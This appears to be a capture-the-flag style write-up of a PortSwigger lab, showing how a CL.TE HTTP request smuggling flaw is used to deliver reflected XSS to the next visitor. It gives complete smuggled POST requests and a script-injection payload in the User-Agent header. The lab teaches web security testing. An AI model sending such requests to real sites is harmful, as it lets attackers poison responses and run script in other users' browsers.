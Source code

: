 ```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0
GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

* The back-end server is tricked into processing this as two requests.
* The **next incoming user** receives the response with the `User-Agent` header reflected, triggering the XSS.

---

Visit a blog post, and send the request to Burp Repeater.
Observe that the comment form contains your `User-Agent header` in a hidden input.

<img width="1740" height="899" alt="image" src="https://github.com/user-attachments/assets/97c1a0d9-ecec-444c-8f0b-0325f4371303" />


Sending blog post to repeater.

<img width="1807" height="811" alt="image" src="https://github.com/user-attachments/assets/e7de01dd-9cfc-447e-9f12-25c47607d6d6" />

In `http history Browser`   to the lab URL and the traffic will start flowing into the proxy logs. Grab the **GET** request to `/` and send that to repeater to test that smuggling is possible or not.

<img width="1877" height="941" alt="image" src="https://github.com/user-attachments/assets/25c7d112-9105-400f-8de3-f417f2e58f11" />

### CL.TE vulnerabilities using differential responses

 This request now contains an invalid URL, the server will respond with status code **404**, indicating that the attack request did indeed interfere with it.
  And confirm that **CL.TE** vulnerability exits.I have also try **TE.CL** but failed

<img width="1920" height="782" alt="image" src="https://github.com/user-attachments/assets/c3452769-30a6-40a3-9aca-90387e197884" />


Inject an XSS payload into the User-Agent header and observe that it gets reflected:
```
"/><script>alert(1)</script>
```

Smuggle this XSS request to the back-end server, so that it exploits the next visitor:

```http

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1

```
<img width="1920" height="825" alt="image" src="https://github.com/user-attachments/assets/efcb6c3a-e33e-471f-b08a-7c29a30b556e" />
